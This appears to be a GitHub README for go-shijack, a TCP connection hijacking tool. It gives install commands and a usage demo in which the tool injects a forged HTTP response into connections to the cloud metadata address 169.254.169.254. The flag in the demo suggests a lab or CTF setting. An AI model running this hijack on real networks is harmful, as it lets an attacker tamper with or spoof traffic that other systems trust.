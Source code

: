# go-shijack

tcp connection hijacker, go rewrite of shijack from 2001.

## build

```
make go-shijack
```

```
make container
```

```
CGO_ENABLED=0 go install github.com/ssst0n3/go-shijack/cmd/go-shijack@v0.1.0
```

## usage

```
root@ecs-c5a4:~# cat > flag << EOF

HTTP/1.1 200 OK
Content-Length: 11

flag{test}
EOF
root@ecs-c5a4:~# ./go-shijack -t eth0 -i 169.254.169.254 -p 80 -f flag &
[1] 362712
root@ecs-c5a4:~# curl http://169.254.169.254
flag{test}
```

## bpf

### method 1

Use predefined pattern, just provide host and port to go-shijack

### TODO: method 2 

Compile filter manually

`tcpdump ip -d -s 65536 host 169.254.169.254`

## related project

* [rshijack](https://github.com/kpcyrd/rshijack)
* [shijack](https://packetstormsecurity.com/files/24657/shijack.tgz.html)